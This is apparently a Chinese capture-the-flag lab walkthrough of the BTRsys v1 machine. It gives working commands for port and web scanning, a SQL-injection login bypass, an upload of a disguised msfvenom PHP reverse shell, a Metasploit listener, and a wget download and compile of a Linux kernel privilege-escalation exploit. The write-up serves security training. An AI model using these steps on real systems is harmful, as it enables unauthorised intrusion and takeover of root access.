


51CTO的网课，本篇利用nmap搜索开放端口，nikto、dirb挖掘web服务找到后台地址，审计源码跳过mysql检测登录，使用burpsuite抓包绕过检测上传反弹shell，执行反弹shell获得低权用户shell，提权有两种方式，一种是查看网站配置文件找到mysql数据库，里面存着密码，可以root，另外一种是searchsploit系统版本，执行本地提权脚本返回root权限，本文两种方式均有展示。

本篇使用工具nmap，dirb，nikto，burpsuite，metasploit。

<!-- more -->

# 使用命令

## metasploit

``` bash
#生成shell
msfvenom -p php/meterpreter/reverse_tcp lhost=攻击机IP lport=攻击机端口 -f raw > shell.php

#开启监听
msfconsole
>use exploit/multi/handler
>set payload php/meterpreter/reverse_tcp
>set lhost 攻击机IP
>set lport 攻击机端口
>run
```

# 渗透记录

1. nmap扫描靶机IP地址开放端口，一个`80`口的web服务，`dirb`挖掘`80`端口web信息，找到后台登录界面：

``` bash
nmap -sV 192.168.1.107
nmap -T4 -A -v 192.168.1.107
dirb http://192.168.1.121 
nikto -host 192.168.1.107 
```



2. 弱口令只能登上去一个类似后台的界面，直接访问该地址能得到mysql错误的提示，这里忘截图了。审计登录界面源码，发现要求用户名得以`@btrisk.com`结尾，密码不等于`'`才会发表单给数据库，否则直接提示错误：


3. 上mysql万能密码` ' OR '1' = '1 `，绕过检测，成功登录后台：


4. 后台是一个文件上传目录，审计源码，发现只能传`jpg/gif/png`格式的图片文件：


5. msfvenom生成一个php反弹shell，后缀名定义为jpg，使用burpsuite抓包修改后缀名为php：

``` bash
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.106 lport=4444 -f raw > shell.jpg
```


6. metasploit开启监听，在前面dirb挖掘到的`/uploads`目录下执行反弹shell，获得低权shell：

``` bash
msfconsole
>use exploit/multi/handler
>set payload php/meterpreter/reverse_tcp
>set lhost 192.168.1.106
>set lport 4444
>run
```


7. 查看根目录下文件，找到一个配置文件，里面有mysql数据库用户与口令：


8. 使用前面的地址、用户名、口令、表名连接mysql数据库：

``` bash
mysql -h localhost -u root -D deneme -p
Enter password: toor
```


9. 查看表`user`里的信息，得到一个密码：

``` sql
show tables;
select * from user;
```


10. 合理猜测（又是猜）这个密码是root密码（滑稽），成功获得root权限：


11. 不猜的话也能做，查看系统版本，搜索可利用提权漏洞：

``` bash
lsb_release -a
uname -a

searchsploit Linux 3.13.0
```



12. 把这个提权漏洞复制到本地apache根目录下，开启apache2服务：

``` bash
cp /usr/share/exploitdb/exploits/linux/local/37292.c /var/www/html/shell.c
service apache2 start
```


13. 靶机wget下载文件到`/tmp`下，gcc编译执行，获得root权限：

``` bash
wget -O /tmp/shell.c http://192.168.1.106/shell.c
cd /tmp
gcc shell.c -o shell
./shell
```


# 参考资料

1. [2020发布 CTF基础入门/CTF教程零基础 渗透测试/web安全/CTF夺旗【整套教程】](https://www.bilibili.com/video/BV1SJ411h7VW)
2. [渗透测试之BTRsys v1靶机 | jlzj's blog
](https://jinlanzhijiao.github.io/2018/11/08/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B9%8BBTRsys-v1%E9%9D%B6%E6%9C%BA/)